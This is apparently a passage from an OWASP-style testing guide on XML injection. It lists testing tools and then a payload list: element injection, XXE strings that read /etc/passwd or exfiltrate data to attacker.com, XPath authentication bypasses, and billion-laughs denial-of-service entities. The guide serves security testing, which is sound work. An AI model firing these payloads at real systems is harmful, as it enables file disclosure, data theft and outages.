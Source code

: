       # HTTPie
      http POST http://example.com/api Content-Type:application/xml @payload.xml
      ```

- **Postman**: GUI tool for testing XML injection in APIs.
  - Download from [Postman](https://www.postman.com/downloads/).
  - Send XML payloads in the Body tab (raw, application/xml).
  - **Tip**: Use Collections for batch testing payloads.

- **Browser Developer Tools (Chrome/Firefox)**: Inspects responses to XML payloads.
  - Access: Press `F12` or `Ctrl+Shift+I`.
  - Use Network tab to analyze responses and Elements tab for error messages.
  - **Note**: Firefox’s 2025 XML response rendering improvements enhance inspection.

- **SOAPUI**: Tests XML-based web services (e.g., SOAP APIs).
  - Download from [SoapUI](https://www.soapui.org/downloads/soapui/).
  - Create a new SOAP project and inject payloads in requests.
  - **Tip**: Use for XML-heavy APIs.

## Testing Methodology

This methodology follows OWASP’s black-box and gray-box approaches for WSTG-INPV-007, testing XML Injection vulnerabilities across input vectors, payload injection, XXE attacks, XPath injection, and XML parser sabotage.

### Common XML Injection Payloads

Below is a list of common XML Injection payloads to test various XML processing vulnerabilities. Start with simple payloads and escalate based on responses. Use with caution and verify results manually.

- **Basic Injection**:
  - `</name><role>admin</role><name>` (Adds new XML element)
  - `<![CDATA[<script>alert(123)</script>]]>` (Injects CDATA content)
  - `&invalid;` (Tests for undefined entity errors)

- **XXE Payloads**:
  - `<?xml version="1.0"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><root>&xxe;</root>` (Reads local file)
  - `<?xml version="1.0"?><!DOCTYPE test [<!ENTITY xxe SYSTEM "http://attacker.com/data">]><root>&xxe;</root>` (Exfiltrates data)
  - `<!ENTITY % xxe SYSTEM "file:///etc/passwd">%xxe;` (Alternative XXE format)

- **XPath Injection Payloads**:
  - `' or '1'='1` (Bypasses XPath conditions)
  - `' or //*[1]=1 or ''='` (Extracts all nodes)
  - `admin' or name()='user` (Targets specific elements)

- **DoS Payloads**:
  - `<!DOCTYPE lolz [<!ENTITY lol "lol"><!ENTITY lol1 "&lol;&lol;">...]>` (Billion laughs attack)
  - `<?xml version="1.0"?><root><data>AAAA...[1MB+]</data></root>` (Large payload)

**Note**: Adjust payloads for the application’s XML structure and test in controlled environments to avoid unintended disruption.
